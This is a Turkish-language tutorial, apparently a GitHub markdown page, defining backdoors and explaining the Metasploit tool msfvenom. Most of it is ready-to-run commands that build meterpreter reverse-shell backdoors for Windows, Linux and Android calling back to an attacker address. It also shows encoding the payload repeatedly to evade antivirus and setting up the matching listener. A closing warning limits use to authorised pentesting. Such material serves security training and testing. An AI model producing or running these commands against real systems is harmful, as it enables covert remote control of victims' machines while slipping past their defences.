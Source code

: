 # 💀 Backdoor Nedir? ve `msfvenom` Kullanımı

## 📌 Backdoor (Arka Kapı) Nedir?

**Backdoor**, bir sistemde izinsiz veya gizli bir şekilde erişim elde etmeyi sağlayan arka kapıdır. Saldırganlar genellikle:

- Sisteme sızdıktan sonra kalıcı erişim sağlamak,
- Güvenlik önlemlerini atlatmak,
- İzlerini gizlemek

amacıyla backdoor yazılımlarını yerleştirirler.

### 🔐 Backdoor Özellikleri

- Gizli çalışır, antivirüslerden saklanmaya çalışır.
- Sistemi kontrol etmek için kullanılabilir.
- Kalıcılık sağlayarak sistem her açıldığında yeniden çalışabilir.
- Çoğunlukla reverse shell, bind shell, trojan veya RAT (Remote Access Trojan) türündedir.

---

## 🛠️ `msfvenom` Nedir?

**msfvenom**, Metasploit Framework içerisinde bulunan bir payload (zararlı kod) oluşturma aracıdır. Zararlı yazılım üretip hedefe göndermek için kullanılır.

### 📦 Özellikleri:

- Farklı platformlar için payload üretme (Windows, Linux, Android vs.)
- Çeşitli formatlarda çıktı oluşturma (exe, apk, elf, dll, bash script vs.)
- Encoding/obfuscation ile tespit edilmesini zorlaştırma
- Payload'a ağ ayarları, port gibi parametreler ekleyebilme

---

## 🔧 `msfvenom` Kullanımı

### ✅ Temel Syntax:

```bash
msfvenom -p <payload> LHOST=<saldırgan_ip> LPORT=<port> -f <format> -o <çıktı_dosyası>
```

### 📌 Örnek 1: Windows için Reverse Shell Payload (.exe)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o backdoor.exe
```

| Parametre | Açıklama |
|-----------|----------|
| `-p` | Payload tipi |
| `LHOST` | Saldırganın IP adresi |
| `LPORT` | Saldırganın dinlediği port |
| `-f` | Çıktı formatı (exe, elf, raw, etc.) |
| `-o` | Çıktı dosya adı |

### 📌 Örnek 2: Linux için Reverse Shell Payload (.elf)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

### 📌 Örnek 3: Android için Backdoor (.apk)

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

---

## 🔄 Encoding (Şifreleme) ile Antivirüslerden Kaçınma

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o encoded_backdoor.exe
```

| Parametre | Açıklama |
|-----------|----------|
| `-e` | Encoder (örnek: x86/shikata_ga_nai) |
| `-i` | Encode tekrar sayısı |

---

## 📡 Metasploit ile Listener Kurma

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

## ⚠️ Uyarı

**msfvenom ve benzeri araçlar yalnızca izinli ortamlarda, eğitim veya sızma testi (pentest) amaçlı kullanılmalıdır.** İzinsiz kullanımı yasadışı olabilir.

---

## 🚀 Sonuç

- `msfvenom`, Metasploit'in güçlü bir payload oluşturucusudur.
- Farklı sistemler için özelleştirilmiş backdoor’lar üretilebilir.
- Listener kurarak hedef sistem ile bağlantı sağlanabilir.
